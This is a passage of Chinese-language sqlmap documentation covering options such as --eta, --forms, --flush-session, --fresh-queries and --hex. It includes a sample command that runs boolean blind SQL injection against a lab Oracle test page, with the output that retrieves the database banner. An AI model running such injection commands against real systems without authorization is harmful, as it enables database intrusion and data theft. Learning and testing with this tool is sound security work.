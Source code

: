 ### 预估完成时间

参数：–eta

可以计算注入数据的剩余时间。

例如Oracle的布尔型盲注：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1" -b --eta

[...]
[hh:mm:01] [INFO] the back-end DBMS is Oracle
[hh:mm:01] [INFO] fetching banner
[hh:mm:01] [INFO] retrieving the length of query output
[hh:mm:01] [INFO] retrieved: 64
17% [========>??????????????????????????????????????????] 11/64??ETA 00:19 
```

然后：

```
100% [===================================================] 64/64
[hh:mm:53] [INFO] retrieved: Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - Prod

web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: Oracle
banner:????'Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - Prod' 
```

sqlmap先输出长度，预计完成时间，显示百分比，输出字符

### 刷新session文件

参数：–flush-session

如果不想用之前缓存这个目标的session文件，可以使用这个参数。 会清空之前的session，重新测试该目标。

### 自动获取form表单测试

参数：–forms

如果你想对一个页面的form表单中的参数测试，可以使用-r参数读取请求文件，或者通过–data参数测试。 但是当使用–forms参数时，sqlmap会自动从-u中的url获取页面中的表单进行测试。

### 忽略在会话文件中存储的查询结果

参数：–fresh-queries

忽略session文件保存的查询，重新查询。

### 使用DBMS的hex函数

参数：–hex

有时候字符编码的问题，可能导致数据丢失，可以使用hex函数来避免：

针对PostgreSQL例子：

